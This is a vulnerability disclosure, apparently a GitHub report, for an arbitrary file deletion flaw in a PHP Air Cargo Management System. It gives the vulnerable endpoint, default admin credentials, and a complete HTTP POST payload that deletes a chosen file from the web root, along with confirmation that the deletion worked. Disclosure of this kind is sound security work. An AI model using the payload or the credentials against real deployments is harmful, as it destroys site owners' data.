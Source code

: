 # Air Cargo Management System v1.0 by oretnom23 has Delete any file

vendors: https://www.sourcecodester.com/php/15188/air-cargo-management-system-php-oop-free-source-code.html

Vulnerability File: /acms/classes/Master.php?f=delete_img

Vulnerability location: /acms/classes/Master.php?f=delete_img, path

The password for the backend login account is: admin/admin123

Payload: 

Here we delete the shel.php file in the root directory

```sql
POST /acms/classes/Master.php?f=delete_img HTTP/1.1
Host: 192.168.1.19
Content-Length: 45
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.1.19
Referer: http://192.168.1.19/acms/admin/?page=system_info
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=8j006kgjjl9sdts88scke1lkuq
Connection: close

path=C%3A%2Fxampp%2Fhtdocs%2Facms%2Fshell.php // Here we delete the shel.php file in the root directory
```
The file path needs to be encoded by url

![image](https://user-images.githubusercontent.com/54017627/166402459-930d4ca2-5f32-46f2-ba9f-7b38cde2d075.png)

At present, the shell.php file is still in the root directory of the website, when we send a request to delete the shell.php file

![image](https://user-images.githubusercontent.com/54017627/166402507-6a52f008-8696-409c-9bb4-2f9ec56fd583.png)

The response package shows that the deletion was successful. Let's go to the root directory to see if the shell.php file still exists.

![image](https://user-images.githubusercontent.com/54017627/166402558-44eb9375-3cd9-433e-93fc-49d89c8d6074.png)

By this time, shell.php has been deleted.

![image](https://user-images.githubusercontent.com/54017627/166402608-06d159f2-3f77-4333-ba43-5a9eeb213ca1.png)
